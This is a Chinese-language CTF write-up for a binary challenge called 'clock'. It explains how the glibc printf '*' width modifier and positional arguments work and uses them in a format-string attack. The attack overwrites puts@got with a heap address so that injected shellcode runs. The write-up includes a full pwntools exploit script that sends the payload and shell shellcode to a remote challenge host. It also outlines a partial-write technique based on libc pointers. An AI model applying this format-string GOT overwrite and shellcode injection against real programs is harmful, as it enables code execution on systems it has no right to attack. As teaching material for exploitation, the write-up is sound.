




# clock 

> [!NOTE]
> 感谢 *dbgbgtf* 提供的复杂printf格式解释思路

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序一开始将堆区添加了可执行权限，并允许我们输入shellcode



随后主菜单中的`display_current_time`给了可以控制的`format_and_print`，我们可以控制前三个参数。



跟进去一看，`vsnprintf`是什么函数？

> [!IMPORTANT]
> `vsnprintf`是"printf to string with max n chars in raw va_list"的意思，`va_list`是什么？
> 通过gdb打印它的结构，看不懂；在glibc中找定义，找不到；在网上找文章，没有具体信息；
> 最后发现它是由gcc实现的。正当我放弃时，想到了pwndbg，结果发现pwndbg已经做好了解析功能
>
> 
>
> 图中`gp_offset`指向的参数就是第一个参数，`reg_save_area`用完了，`overflow_arg_area`继续，
> 这也是各种`printf`的内部实现，不难看出，从第 **6** 个参数开始从栈上访问

可以发现，第二个参数来自堆上，而堆又是可执行的；第三个参数来自栈上，因此可以写指针，
然后利用`$`来访问。注意到在`format_and_print`函数后跟了`puts`， 并且程序没有开PIE与只读GOT，
因此可以尝试覆盖之。如果能覆盖成堆地址就好了，直接跳转过去执行我输入的代码。其中的秘诀就是——`%*c`。

> [!NOTE]
> `*`在printf中是一个格式化修饰符，意味着将当前参数作为`int`读入并视为宽度，
> 例如`printf("%*d", -5, 777)`就会在内部被解释为`"%-5d"`，输出`777  `；
> `*`还可以使用positional arg，例如`printf("%c%*4$d", '>', 1, 2, 3)`就会输出`>  1`。
>
> 注意，positional arg会使输出变得“不合直觉”，在上例中，`4$`应当作用在`d`上，
> 然而实际上却作用在了`*`上，输出了"  1"。类似的，`printf("%3$*d", 3, 2, 1)`输出`  1`；
> `printf("%3$*2$d", 3, 2, 1)`输出` 1`。以下是一种解释。具体的代码请参阅`printf-parsemb`[^1]。
>
> 
>
> 此外，`*`取参数的值时，固定取`int`，当取到的值为负数时，会自动做相反数运算，并且打开左对齐输出，
> 在后文中会提到，这是一个对我们在利用时不利的特性。

[^1]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/printf-parsemb.c

```c
// glibc2.38/stdio-common/vfprintf-internal.c#L763
      /* Get width from argument.  */
    LABEL (width_asterics):
      {
	const UCHAR_T *tmp;	/* Temporary value.  */

	tmp = ++f;
	if (ISDIGIT (*tmp))
	  {
	    int pos = read_int (&tmp);

	    if (pos == -1)
	      {
		__set_errno (EOVERFLOW);
		Xprintf_buffer_mark_failed (buf);
		goto all_done;
	      }

	    if (pos && *tmp == L_('$'))
	      /* The width comes from a positional parameter.  */
	      goto do_positional;
	  }
	width = va_arg (ap, int); // 认为*输入的参数是int类型的数据

	/* Negative width means left justified.  */
	if (width < 0)
	  {
	    width = -width;
	    pad = L_(' ');
	    left = 1;
	  }
      }
      JUMP (*f, step1_jumps);
```

现在我们知道，我们访问的第一个参数是刚写入完内容的`name`堆地址，第二个参数是`pwd`栈地址，
并且第6个参数处就是我们写入的内容。如果我们能把堆地址写到`puts@got`中，
那么`puts`执行时就会跳转到我们在堆上输入的数据处。此时`*`参数就派上用场了。
使用`"%*c%6$lln"`作为格式输入，`vsnprintf`就会将第一个堆地址作为宽度，打印第二个字符，
然后根据写过的字符数，将其写入到第六个参数，`puts@got`中。

> [!TIP]
> 由于程序没开PIE，因此堆地址刚好占4个字节，由于`*`取的类型为`int`，所以如果开了PIE，
> 堆地址变成了6个字节，这个方法就废了
>
> 此外，`puts@got`原先已经链接了`puts@libc`，其中存放了6个字节的数据，
> 需要通过`lln`清空之前的数据，只保留堆地址这4个字节

这样以来，我们只需要在申请的堆块上写上打开shell的shellcode，我们就能成功拿shell。

> 最后的payload非常短，我猜是非预期

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
EXE = './clock'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('node5.buuoj.cn', 29789)
    elf = ELF(EXE)

    sh.sendafter(b'code', b'never mind')
    sh.sendlineafter(b'Enter', b'3')
    sh.sendafter(b'format', b'%*c%6$lln')
    sh.sendafter(b'name', asm(shellcraft.amd64.linux.sh()))
    sh.sendafter(b'pwd', p64(elf.got['puts']))

    sh.clean()
    sh.interactive()
```

## `*`修饰符的妙用

这里有[一篇文章](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)，
讲了如何借助`*`进行进一步利用。简而言之，如果有libc的指针，
并且有现成的指针存储了堆之上，栈之下的地址，那么就可以先从现有的libc指针中使用`*`，
写`libc & 0xffffffff`个字节，然后可以再跟一个`%?c`来做加法，把写过的字节调一下，
然后再使用`%?$n`就可以把调过偏移的数字写入你想要写的指针中（堆之上，栈之下的地址的高2字节，
即`0x7fff`这个部分，基本都一样，因此可以直接利用）

> [!TIP]
> 基于我本机[^2]的libc.so.6，我收集了一系列在`system`之前的符号，
> 可以在当前目录下的[SymbolsBeforeSystem.txt](./SymbolsBeforeSystem.txt)中查看

[^2]: Arch Linux, GLIBC_2.39

但是，由上面的源码可见，当`libc & 0x80000000 != 0`时，`*`取到的就是一个负数，
并会将其取相反数，例如对`0x7ffff7c00000`取就会变成`-(0x7ffff7c00000 & 0xffffffff)`，
即`0x8400000`，这显然与我们想写的`0xf7c00000`产生了偏差。在ASLR开启的情况下，
libc被int截断后的最高位为0的概率是1/2，因此我们通过这种方式能写正确字节的概率也是1/2。

## 写这么多字节为什么连接没有被关断？

容器一般会有限制，如cpu时间，占用的资源等，如果一次性打印了大量的字符，
则很有可能导致连接的关断。然而，上面的例子中，写入堆地址同样是一个很大的值，却能顺利打通，
这是怎么回事呢？

仔细观察函数`vsnprintf`属于`sprintf`家族，实际上，大量空白字符并没有输出到标准输出流中，
实际上只做了字符串写入操作；而且还限定了长度，防止越界写。那么内部实际在写入完有效的字符串后，
会使用一个额外的，“丢弃的”缓冲区来处理剩余未写入完的垃圾字符，如下图所示



在上图中，`buf.base.write_base`本来是指向要写入的字符串(0x7fffffffddb0)开始的，
当字符串写入达到长度限制后，`write_base`就指向了结构体内的`discard`继续写入。
gdb跟踪查看源代码，当有大量字符溢出时，会反复使用`memset`填充`discard`[^3]，
而这个行为实际上并不经过网络传输，因此不会导致连接关断。

[^3]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/Xprintf_buffer_pad_1.c#L39

> [!NOTE]
> 在上述结构体中，有`written`字段，然而，如果payload比较短，我发现`written`明明是0，
> 但是使用`%n`时仍然写入了正确的数字。例如`"%c%20c%n"`在运行到`%n`时，
> 结构体中的`written`仍然是0。实际上，printf正确地将21写入了预期的指针中，
> 查询源码发现统计"%n"前已写入的字符是`written + (write_ptr - write_base)`[^4]，
> 因此没有问题

[^4]: https://elixir.bootlin.com/glibc/glibc-2.38/source/stdio-common/Xprintf_buffer_done.c#L24

实际使用`*`时，除了可以用在`vsnprintf` & `snprintf`，还可以用在`fprintf` & `dprintf`，
如写入的文件是`/dev/null`，这同样不会向网络传输字符。总而言之，只要空白字符不打印出来，
就可以利用。

## `printf`函数分配了堆块？

当我测试时，printf会分配堆块，其调用链是
`__printf_buffer_do_flush -> __printf_buffer_flush_to_file -> _IO_new_file_xsputn ->
_IO_new_file_overflow -> __GI__IO_doallocbuf -> __GI__IO_file_doallocate -> malloc`，
printf确实会分配堆块。然而，看了pwn.college后发现只要`setbuf(stdout, NULL)`就不会再分配缓冲区了。

看来这行代码一方面实现了即时刷新缓冲区，另一方面也避免了出乎意料的堆块分配。

## 参考

[Pwn: More Printf](https://violenttestpen.github.io/ctf/pwn/2021/06/06/zh3r0-ctf-2021/)
